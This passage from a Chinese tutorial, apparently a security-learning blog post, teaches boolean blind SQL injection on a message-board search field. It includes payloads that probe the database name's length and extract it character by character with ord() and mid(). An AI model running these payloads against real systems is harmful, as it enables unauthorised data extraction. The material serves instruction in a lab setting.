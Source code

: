 通常在进行布尔注入时，经常使用 `and` 或者 `or` 来进行判断

还是拿留言板搜索处为例

先来判断一下数据库的长度是否大于5 `t%' and (select length(database()))>5 %23` <br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614916473343.png)

以此去判断，最后确定数据库长度为7<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614916838046.png)

然后来逐个查询出数据库的各个字符 `t%' and (select(ord(mid(database(),1,1))=118)) %23`

> 查询数据库第一个字符：`mid(databse(),1,1)`
> 把查询出来的字符转换成ASCII码进行比对：`ord()`
> 进行 `select` 查询<br>

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614927694440.png)
